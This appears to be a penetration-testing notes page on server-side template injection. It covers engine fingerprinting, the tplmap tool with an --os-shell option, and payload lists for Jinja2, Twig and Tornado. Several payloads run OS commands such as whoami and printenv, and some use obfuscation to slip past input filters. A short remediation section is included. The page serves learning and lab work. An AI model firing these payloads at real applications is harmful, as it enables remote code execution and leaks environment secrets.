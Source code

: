 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssti_server_side_template_injection](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/)
[![ssti](../../../../_badges/poat/ssti.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>

There are a few tools you might use:

* [TInjA](https://github.com/Hackmanit/TInjA) <small>(0.2k ⭐)</small>
* [sstimap](https://github.com/vladko312/sstimap) <small>(0.6k ⭐)</small>
* [tplmap](https://github.com/epinna/tplmap) <small>(3.6k ⭐, 2022 🪦)</small>

```ps
$ tplmap -u 'http://example.com:80/*'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy' --os-shell
```
</div></div>

<hr class="sep-both">

## Jinja2 Template Engine — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![django_unchained](../../../../../cybersecurity/_badges/rootme/realist/django_unchained.svg)](https://www.root-me.org/en/Challenges/Realist/Django-unchained)
[![djangocatz](../../../../../cybersecurity/_badges/rootme/realist/djangocatz.svg)](https://www.root-me.org/en/Challenges/Realist/DjangocatZ)

<div class="row row-cols-lg-2"><div>

#### Jinja2 SSTI — PoC

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC" }}` then `{{ "PoC"|e }}`
* Test for instructions: `{% debug %}` and `{% print("PoC") %}`

Try to print the context `{{ self._TemplateReference__context }}`. It's always available unless filtered. It will list which objects are available.

* `self`: a Python object
* `range`: a Python object
* `dict`: a Python object
* `cycler`: a Python object
* `lipsum`: a Python function
* `joiner`: a Python object
* `namespace`: a Python object
* `config`: a Python object
* `request`: a Python object available with Flask

#### Jinja2 SSTI — Local Testing

If we don't care about XSS, the shortest code to test is:

```py
from jinja2 import Template
template = Template("""{{ self }}""")
output = template.render()
print(output)
```

If we need to consider XSS, which is the default with Flask, use:

```py
from jinja2 import Environment, select_autoescape
env = Environment(autoescape=select_autoescape(['html', 'xml']))
template = env.from_string("""{{ self }}""")
output = template.render()
print(output)
```

Finally, if we need to test a sandbox environment, e.g. where `self` is empty and only some classes/attributes are allowed:

```py
# Extend sandbox.SandboxedEnvironment to allow attributes
from jinja2 import select_autoescape, DictLoader, sandbox
template_string = """{{ self.__dict__ }}"""
env = sandbox.SandboxedEnvironment(
    loader=DictLoader({'dummy_template': template_string}),
    autoescape=select_autoescape(['html', 'xml'])
)
env.globals = {} # add stuff here
template = env.get_template('dummy_template')
output = template.render()
print(output)
```
</div><div>

#### Jinja2 SSTI — Modern payloads

Old payloads were using introspection from `()` or `""` ([ref](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)).

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

#### Jinja2 SSTI — Filter Bypass

[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![djangocatz](../../../../../cybersecurity/_badges/rootme/realist/djangocatz.svg)](https://www.root-me.org/en/Challenges/Realist/DjangocatZ)

Refer to my [Python Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python) and this summary:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler['__init__']['__globals__']['os']['system']('whoami') }}
{{ cycler|attr('__init__')|attr('__globals__')|attr('get')('os')|attr('system')('ls') }}
{{ cycler|attr('__in'+'it__')|[...] }}
{{ cycler|attr('__in'~'it__')|[...] }}
{{ cycler|attr(('@@in'~'it@@'|replace("@", "\u005F")))|[...] }}
{{ lipsum['__builtins__'].__import__('os').system('whoami') }}
{{ iamnotfiltered.__init__.__globals__.__builtins__.__import__('os').system('whoami') }}
```

One thing of importance is that Jinja support a property access syntax with `[]` even for objects such as `os` which natively don't support it.

```js!
{{ cycler['__init__'] }}
{{ self['__dict__'] }}
{{ some_payload.__import__('os')['system'] }}
```

#### Jinja2 SSTI — Remediation

Never inject untrusted input in your template before rendering them. Always pass the input as parameters as intended.

```diff
-with open('templates/xxx.html') as f:
-    template = f.read()
-template = template.replace("{{ param1 }}", 'value1')
-template = template.replace("{{ param2 }}", 'value2')
-return render_template_string(template)
+return render_template('xxx.html', param1=value1, param2=value2)
```

Flask automatically escape all parameters by default. Otherwise, Jinja default mode requires you to escape all dangerous parameters to avoid XSS. Replace `{{ param1 }}` with `{{ param1|e }}`.

Using the manual mode is more performant. When using the manual mode, you may mark safe parameters as safe with `{{ param3|safe }}`.
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Twig Template Engine — PHP

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the [official documentation](https://twig.symfony.com/documentation). [GitHub](https://github.com/twigphp/Twig) <small>(8.0k ⭐)</small>.

* Basic Fingerprint PoC: `{{_self}}`, `{{_self.env}}`
* Random payloads:

```js!
{{_self.env.display("TEST")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
```

📚 Both `exec` and `system` are PHP functions.
</div><div>

#### Apache Velocity Template Engine — Java

Link to the [official documentation](https://velocity.apache.org/).

* Basic PoC: `#set($s=7+7) $s`

<br>

#### Tornado Web Framework Templates — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the template section of the [official documentation](https://www.tornadoweb.org/en/stable/guide/templates.html).

```js!
{% import os %}{{os.popen('whoami').read()}}
```
</div></div>